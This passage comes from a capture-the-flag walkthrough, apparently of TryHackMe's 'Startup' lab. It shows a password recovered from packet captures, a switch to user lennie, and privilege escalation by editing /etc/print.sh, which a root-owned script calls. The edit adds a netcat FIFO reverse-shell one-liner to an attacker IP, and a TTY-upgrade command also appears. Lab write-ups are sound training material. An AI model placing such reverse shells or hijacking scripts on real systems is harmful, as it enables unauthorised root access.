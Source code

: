 ### Wireshark
After going through the logs in Wireshark, after a lot of trial and errors in `tcp.stream eq 7` following tcp found that valuable information.
![](https://imgur.com/xPzy0H3l.png)

`c4ntg3t3n0ughsp1c3` looks like the password for user `lennie`
login to lennie using `su lennie`

![](https://imgur.com/eiNZnJhl.png)

User flag was found
```bash
cat user.txt
THM{xxxxxxxxxxxxxxxxxxx}
```
## Privilege escalation
Looking into `/scripts` directory
```bash
lennie@startup:~/scripts$ ls -la  
ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov  9 02:13 .
drwx------ 4 lennie lennie 4096 Nov  9 02:12 ..
-rwxr-xr-x 1 root   root     77 Nov  9 02:12 planner.sh
-rw-r--r-- 1 root   root      1 Nov 11 12:42 startup_list.txt

lennie@startup:~/scripts$ cat planner.sh
cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh

lennie@startup:~/scripts$ ls -la /etc/print.sh
ls -la /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov  9 02:12 /etc/print.sh
lennie@startup:~/scripts$ cat /etc/print.sh
cat /etc/print.sh
#!/bin/bash
echo "Done!"
lennie@startup:~/scripts$

```                                
`planner.sh` can be runned by us but we can not remove or modify the files in the scripts directory.
But we can edit the file `print.sh` file which is being called in `planner.sh`.
### Full TTYs
Before editing the file in vim we need to set oru TTY
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
Inside the nc session
 Press `CTRL+Z` and add the following lines.
```bash
stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
using `vim` edit `/etc/print.sh` to add our bash reverse shell
```bash
lennie@startup:~$ cat /etc/print.sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.82.80 1235 >/tmp/f
```
Now we wait with our netcat to get a connection through our bash reverse shell
